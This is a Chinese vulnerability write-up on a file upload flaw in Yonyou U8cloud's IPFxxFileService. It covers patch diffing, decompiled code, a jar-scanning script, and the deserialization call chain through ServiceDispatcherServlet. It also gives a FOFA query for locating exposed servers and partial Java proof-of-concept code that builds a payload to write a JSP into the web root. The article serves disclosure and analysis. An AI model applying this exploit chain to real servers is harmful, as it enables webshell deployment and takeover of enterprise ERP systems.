# 用友U8cloud最新全版本IPFxxFileService任意文件上传漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18993  
> **文章ID**: 18993

---

# 一、漏洞简介

用友U8cloud是一款基于云原生架构，面向成长型集团企业的云ERP整体解决方案。它集成了人、财、物、客、产、供、销等核心企业管理功能，支持多组织业务协同、智能财务、供应链管理和人力资源服务，旨在帮助企业实现“敏经营、轻管理、简IT”的数字化运营目标，自2017年发布以来已服务超过7000家企业，支持全栈信创环境，为企业提供安全、稳定、高效的一体化管理平台。

2025年9月17日，用友安全中心发布了U8cloud所有版本IPFxxFileService任意文件上传漏洞的安全公告（<https://security.yonyou.com/#/noticeInfo?id=735>），全部版本存在任意文件上传漏洞，进而可以上传webshell控制系统权限。

# 二、影响版本

所有版本：2.0 2.1 2.3 2.5 2.6 2.65 2.7 3.0 3.1 3.2 3.5 3.6 5.0 5.0sp 5.1 5.1sp

# 三、漏洞原理分析

## 1、补丁包逆向分析

补丁包下载地址：<https://security.yonyou.com/#/patchInfo?identifier=d791e304136648d5a3cf36bcda869690>

补丁包没有任何的加密保护措施，直接解压就能看到补丁包的class文件



我们从头开始分析补丁包做了些什么：

**writeBytesToFile(byte[] filedata, String filename)方法：**



1. 将字符串 filename 封装成 File file = new File(filename)。
2. 通过 RuntimeEnv.getInstance().getCanonicalNCHome() 获取应用根路径（NCHome），拼接出 realPath = <NCHome>/webapps/u8c\_web/。
3. 取目标 file.getCanonicalPath()，如果该 canonical 路径以 realPath 的 canonical 路径为前缀，则抛 IOException("Illegal File Path")（即**拒绝写入 webapps/u8c\_web 下的任何路径**）。
4. 否则获取父目录 pFile，若不存在则递归创建目录 pFile.mkdirs()。
5. 打印日志（Debug.debug，含本地化字符串）。
6. 打开 FileOutputStream outStream = new FileOutputStream(file) 并写入 filedata，随后 outStream.close()。
7. 打印日志并返回 file。

功能：把字节数组写成文件到指定路径，但在写入前检查并禁止目标写入 <NCHome>/webapps/u8c\_web/ 下；其余路径允许写入。

看来这个方法就是漏洞修复的关键点了，剩下的代码都是些常规工具函数，非修复漏洞和核心代码：如提供文件内容的读取与写入、目录打包压缩、XML/Excel 的互转处理、文件扩展名和单元格内容提取、文件移动等，就不往下分析了。

一句话总结就是补丁在writeBytesToFile中增加了路径检查，**禁止把文件写入 <NCHome>/webapps/u8c\_web/**，从而修复了通过该方法将恶意文件写入 Web 根目录、部署 WebShell 并导致 RCE 的任意文件写入风险。

## 2、安装包逆向分析

补丁包中的信息有限，想要更多的漏洞细节，还是需要分析下程序的源代码，所以我们要去源代码中找对应的类。手头只有U8cloud 2.5的安装包，因为补丁包中修复的类的路径是uapeai/classes/nc/vo/pfxx/util/FileUtils.class，我们先找到安装包中的uapeai文件夹，反编译code.jar。



在modules.uapeai.lib.pubuapeaipfxx.jar下找到nc.vo.pfxx.util.FileUtils：



可以看到没有对 filename 做任何路径校验，攻击者可以传入任意路径：

```
public static File writeBytesToFile(byte[] filedata, String filename) throws IOException {
    File file = new File(filename);
    File pFile = file.getParentFile();
    if (!pFile.exists())
        pFile.mkdirs(); 
    Debug.debug(...);
    FileOutputStream outStream = new FileOutputStream(file);
    outStream.write(filedata);
    outStream.close();
    Debug.debug(...);
    return file;
}
```

接下来要追踪一下writeBytesToFile方法的调用链，通过搜索找到nc.bs.pfxx.pub.PFxxFileServiceImpl类



writeDocToXMLFile() 方法调用FileUtils.writeBytesToFile写入文件，接收二进制数据和一个目标文件名，把数据写成一个 XML 文件，但因为 filename 可能是外部传入的用户输入，如果没有路径校验，就会导致**任意文件写入漏洞。**

继续通过搜索关键字追踪writeDocToXMLFile() 方法，跳转到nc.itf.uap.pfxx.IPFxxFileService，这是一个接口，里面有writeDocToXMLFile的方法声明：



我们还需要进一步寻找IPFxxFileService接口对外暴露的情况才知道怎么构造任意文件上传漏洞。

搜了下没搜到有用的引用，便想着是不是在其它的jar包中，没有办法查看相互引用关系，或者不在可反编译的文件中。于是我们写个脚本递归扫描一下安装包文件夹下的所有文件，包含嵌套的jar文件，去搜索IPFxxFileService，脚本如下：

```
# find_in_jars_localtmp.py
# Usage:
#   python find_in_jars_localtmp.py [scan_root_dir]
#
# 功能:
#   递归扫描指定目录下的 .jar/.war/.ear（含嵌套），
#   查找归档内 entry path: 如nc/vo/pfxx/util/FileUtils.class
#   以及文本模式: 如IPFxxFileService
#
# 输出:
#   脚本当前目录下的 FindClass_Results_YYYYMMDD_HHMMSS.txt
#   临时缓存目录 tmp_findjar_YYYYMMDD_HHMMSS（也在脚本当前目录）

import os
import sys
import zipfile
import tempfile
import shutil
import io
from datetime import datetime

# ============ 配置（如需修改） ============
TARGET_ENTRY = ""   # 归档内精确条目路径
TEXT_PATTERNS = ["IPFxxFileService"]  # 忽略大小写
ARCHIVE_EXTS = {".jar", ".war", ".ear"}
MAX_RECURSION = 8  # 嵌套归档最大深度（防止无限）
KEEP_TEMP = True   # 是否保留临时解压目录（True: 保留，False: 运行结束删除）
# ==========================================

def is_archive_name(name):
    name = name.lower()
    for ext in ARCHIVE_EXTS:
        if name.endswith(ext):
            return True
    return False

def search_text_in_bytes(bts, patterns):
    try:
        s = bts.decode('utf-8', errors='ignore').lower()
    except Exception:
        s = str(bts).lower()
    for p in patterns:
        if p.lower() in s:
            return p
    return None

def process_archive_file(archive_path, origin_archive, workdir, depth, results):
    """
    archive_path: path to a physical archive file on disk
    origin_archive: the top-level archive we started from (for reporting)
    workdir: temporary working dir for extracting inner archives
    depth: recursion depth
    results: list to append findings
    """
    if depth > MAX_RECURSION:
        return

    try:
        with zipfile.ZipFile(archive_path, 'r') as z:
            for entry in z.infolist():
                entry_name = entry.filename.replace("\", "/")
                # 1) 精确匹配 entry path
                if entry_name == TARGET_ENTRY:
                    results.append({
                        "type": "ArchiveEntryPath",
                        "archive": origin_archive,
                        "entry": entry_name,
                        "note": f"Found entry {TARGET_ENTRY} in {archive_path}"
                    })
                # 2) 如果 entry 是内嵌的 archive (.jar/.war/.ear)，提取到临时文件并递归处理
                if is_archive_name(entry_name):
                    try:
                        data = z.read(entry)
                        inner_name = os.path.basename(entry_name)
                        # 造一个在 workdir 下的临时文件名（保留以便后续查看）
                        tmp_inner = os.path.join(workdir, f"{datetime.utcnow().strftime('%Y%m%d_%H%M%S_%f')}_{depth}_{inner_name}")
                        with open(tmp_inner, "wb") as f:
                            f.write(data)
                        # 递归处理内嵌归档
                        process_archive_file(tmp_inner, origin_archive, workdir, depth + 1, results)
                        # 不立即删除 tmp_inner（以便 KEEP_TEMP 决定是否清理）
                    except Exception:
                        # 忽略无法解压或读取的条目
                        pass
                else:
                    # 3) 对归档内的非归档条目进行文本内容搜索（比如 class 名称或反编译后的文本）
                    try:
                        data = z.read(entry)
                        matched = search_text_in_bytes(data, TEXT_PATTERNS)
                        if matched:
                            results.append({
                                "type": "ArchiveTextMatch",
                                "archive": origin_archive,
                                "entry": entry_name,
                                "pattern": matched,
                                "note": f"Pattern '{matched}' found in entry {entry_name} inside {archive_path}"
                            })
                    except Exception:
                        pass
    except zipfile.BadZipFile:
        # 不是有效的 zip/jar，忽略
        return
    except Exception:
        return

def search_filesystem_for_text(root, patterns, results):
    for dirpath, dirs, files in os.walk(root):
        for fname in files:
            fpath = os.path.join(dirpath, fname)
            # 跳过要处理的 archive（上面会单独处理）
            if os.path.splitext(fname)[1].lower() in ARCHIVE_EXTS:
                continue
            try:
                with open(fpath, "rb") as f:
                    chunk = f.read()
                matched = search_text_in_bytes(chunk, patterns)
                if matched:
                    results.append({
                        "type": "FileTextMatch",
                        "file": fpath,
                        "pattern": matched,
                        "note": f"Pattern '{matched}' found in file {fpath}"
                    })
            except Exception:
                # 无法读取（权限/二进制/链接等）则忽略
                continue

def main():
    # 脚本目录（输出与临时目录都放在这里）
    try:
        script_dir = os.path.abspath(os.path.dirname(__file__))
    except NameError:
        script_dir = os.getcwd()

    if len(sys.argv) > 1:
        root = sys.argv[1]
    else:
        root = input("请输入要扫描的目录（或回车默认当前目录）：").strip() or os.getcwd()

    if not os.path.isdir(root):
        print("指定的路径不存在或不是目录：", root)
        return

    ts = datetime.now().strftime("%Y%m%d_%H%M%S")
    tmpdir = os.path.join(script_dir, f"tmp_findjar_{ts}")
    os.makedirs(tmpdir, exist_ok=True)

    results = []
    # 收集所有 archive 文件（递归）
    archives = []
    for dirpath, dirs, files in os.walk(root):
        for fname in files:
            if os.path.splitext(fname)[1].lower() in ARCHIVE_EXTS:
                archives.append(os.path.join(dirpath, fname))

    try:
        print(f"脚本目录: {script_dir}")
        print(f"临时缓存目录: {tmpdir}")
        print(f"扫描目录: {root}")
        print(f"找到 {len(archives)} 个归档，开始逐个处理（会处理内嵌归档，最大深度 {MAX_RECURSION}）...")
        for a in archives:
            process_archive_file(a, a, tmpdir, depth=0, results=results)

        # 同时在文件系统中搜索文本（用于查找源码/反编译后的 .java/.txt 等）
        print("在文件系统普通文件中搜索文本模式...")
        search_filesystem_for_text(root, TEXT_PATTERNS, results)

        # 输出结果到脚本目录
        outpath = os.path.join(script_dir, f"FindClass_Results_{ts}.txt")
        with open(outpath, "w", encoding="utf-8") as outf:
            outf.write(f"Scan root: {root}
")
            outf.write(f"Script dir: {script_dir}
")
            outf.write(f"Temp dir: {tmpdir}
")
            outf.write(f"Target entry: {TARGET_ENTRY}
")
            outf.write(f"Text patterns: {TEXT_PATTERNS}
")
            outf.write(f"Found results: {len(results)}

")
            for i, r in enumerate(results, 1):
                outf.write(f"--- Result {i} ---
")
                for k, v in r.items():
                    outf.write(f"{k}: {v}
")
                outf.write("
")

        # 打印控制台汇总
        print(f"
扫描完成，结果保存在：{outpath}")
        print(f"临时缓存位置：{tmpdir} (KEEP_TEMP={KEEP_TEMP})")
        print(f"匹配到 {len(results)} 条结果。")

    finally:
        if not KEEP_TEMP:
            try:
                shutil.rmtree(tmpdir)
                print("临时缓存已删除。")
            except Exception:
                print("删除临时缓存失败，请手动删除：", tmpdir)

if __name__ == "__main__":
    main()

```

运行后扫描结果会自动保存到同文件夹下的txt中：

我们查看包含IPFxxFileService的文件，注意到modules\uapeai\META-INF\P\_pfxx50.upm文件，它是U8cloud系统注册服务组件的核心文件，定义了模块中哪些组件被注册到平台：



打开P\_pfxx50.upm文件，根据配置文件显示，IPFxxFileService被**注册为可远程调用的 Service Bean**，可以被平台的Service Dispatcher找到和调用（例如以前爆出过漏洞的 ServiceDispatcherServlet） 。



联想到之前ServiceDispatcherServlet接口被爆出过反序列化漏洞，该漏洞的核心在于 ServiceDispatcherServlet接口（通常映射至 CommonServletDispatcher类）在处理请求时，会读取传入的序列化数据并进行反序列化 。U8cloud使用了自定义的序列化机制NetObjectInputStream，但其在解析数据时，**对反序列化的类限制不够严格**（早期补丁前甚至无有效限制），官方主要通过**白名单限制**进行修复，在 NetObjectInputStream的构造函数中只允许反序列化特定的类（如 InvocationInfo.class, ESBContextForNC.class），非白名单类则抛出异常。ServiceDispatcherServlet的原理不是本文重点分析的内容，可以参考大佬的文章：<https://mp.weixin.qq.com/s/bQGOzXfc57BgxN-sydl2Og?scene=1&click_id=7>。

那根据上面的分析，我们向ServiceDispatcherServlet发送恶意序列化数据，指定接口名IPFxxFileService和方法writeDocToXMLFile，ServiceDispatcherServlet根据接口名和方法名找到对应Bean，框架查找U8C服务Bean注册表，发现注册的接口IPFxxFileService的实现类为PFxxFileServiceImpl，调用PFxxFileServiceImpl.writeDocToXMLFile()，实际执行 FileUtils.writeBytesToFile()，文件被写入服务器文件系统，路径由参数 filename 控制，**将恶意文件上传到Web目录****（如 webapps/u8c\_web）实现****任意文件上传**。

利用链如下图：

​

# 四、环境搭建（资产测绘）

FOFA：app="用友-U8-Cloud"



# 五、漏洞复现

注：要引入U8cloud原生的fw.jar和basic.jar两个包来序列化数据

POC关键代码：

```
public static void main(String[] args) {
    try {
        setTokenUtilSeed(SERVER_TOKEN_SEED);

        TokenUtil tokenUtil = TokenUtil.getInstance();
        String validToken = tokenUtil.genToken(TARGET_USER_CODE);

        InvocationInfo invInfo = new InvocationInfo();
        invInfo.setServicename("nc.itf.uap.pfxx.IPFxxFileService");
        invInfo.setMetodName("writeDocToXMLFile");
        invInfo.setUserCode(TARGET_USER_CODE);
        invInfo.setUserDataSource(InvocationInfo.DEFAULT_DATASOURCE_NAME);
        invInfo.setCorpCode(InvocationInfo.DEFAULT_PKCORP_VALUE);
        invInfo.setLangCode(InvocationInfo.DEFAULT_LANG_CODE_VALUE);

        setPrivateField(invInfo, "callId", UUID.randomUUID().toString());
        setPrivateField(invInfo, "token", validToken);

        String filename = "webapps/u8c_web/test.jsp";
        byte[] fileData = readAndZipFile("./test.jsp");
        setPrivateField(invInfo, "parametertypes", new Class[]{String.class, byte[].class});
        setPrivateField(invInfo, "parameters", new Object[]{filename, fileData});

        byte[] finalData = generateSerializedData(invInfo);

        try (FileOutputStream fos = new FileOutputStream("payload.bin")) {
            fos.write(finalData);
        }

    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

用yakit直接发送生成的bin文件，发现test.jsp上传成功：




# 六、修复建议

用友公司已针对此漏洞发布了官方安全补丁，请及时升级，补丁下载地址：<https://security.yonyou.com/#/patchInfo?identifier=d791e304136648d5a3cf36bcda869690>。

# 七、总结

这个漏洞总结起来还是ServiceDispatcherServlet反序列补丁绕过实现的任意文件上传漏洞，通过寻找ServiceDispatcherServlet可以调用的新的组件，且该组件内部存在任意文件上传漏洞，从而形成新的攻击链。
